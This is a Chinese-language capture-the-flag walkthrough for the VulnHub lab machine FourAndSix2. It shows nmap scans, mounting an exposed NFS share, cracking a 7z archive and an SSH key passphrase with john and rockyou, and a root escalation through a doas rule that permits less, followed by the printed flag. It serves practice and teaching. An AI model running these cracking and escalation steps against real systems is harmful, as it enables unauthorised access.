 靶机地址:https://download.vulnhub.com/fourandsix/FourAndSix2.ova

## 靶机信息
级别:容易


## Recon
### nmap
```shell
nmap -sn 192.168.1.0/24
	//IP:192.168.1.139

sudo nmap -sT --min-rate 10000 -p- 192.168.1.139
	//Ports
	PORT    STATE SERVICE
	22/tcp  open  ssh
	111/tcp open  rpcbind
	//UDP
sudo nmap -sU --min-rate 10000 -p- 192.168.1.139
	//UDP Ports
	PORT     STATE SERVICE
	111/udp  open  rpcbind
	2049/udp open  nfs

```

## nfs
```shell
// # 可能需要安装 apt-get install nfs-common
showmount -e 192.168.1.139
Export list for 192.168.1.139:
/home/user/storage (everyone)

//发现nfs共享了/home/user/storage 目录，挂载到本地
sudo mount -t nfs 192.168.1.139:/home/user/storage /tmp //这里要sudo权限

cd /tmp
得到backup.7z

```
## 暴力破解压缩包密码
### 使用rarcrack破解
```shell
7z e backup.7z //发现需要密码

//安装rarcrack
sudo apt-get install libxml2-dev
sudo apt-get install rarcrack

//rarcrack 文件名 --threads 线程数 --type rar|zip|7z

rarcrack backup.7z --threads 16 --type 7z
```

### 使用john破解
```shell
7z2john backup.7z > backup.7z_hash
john --format=7z --wordlist=/usr/share/wordlists/rockyou.txt backup.7z_hash //用john很快就能完成破解

//破解后得到ssh密钥和一些图片
xdg-open //查看图片

cat id_rsa.pub 发现用户名
```
![[Pasted image 20231006155618.png]]
```shell
//使用私钥登录，发现还需要密码，再次用john破解
ssh2john id_rsa > id_rsa_hash
john --format=ssh --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash
```
![[Pasted image 20231006155806.png]]
```shell
ssh -i id_rsa user@192.168.1.139
Enter passphrase for key:12345678
//成功得到立足点
```
## 提权
```shell
find / -perm -u=s -type f 2>/dev/null
//发现一个  /usr/bin/doas 的文件
// /usr/bin/doas 作用类似于 sudo 

cat /etc/doas.conf
//permit nopass keepenv user as root cmd /usr/bin/less args /var/log/authlog
//permit nopass keepenv root as root

doas /usr/bin/less /var/log/authlog
按下v进入vi模式，输入:!sh开一个新bash，即可成功提权

flag：acd043bc3103ed3dd02eee99d5b0ff42
```
![[Pasted image 20231006162537.png]]
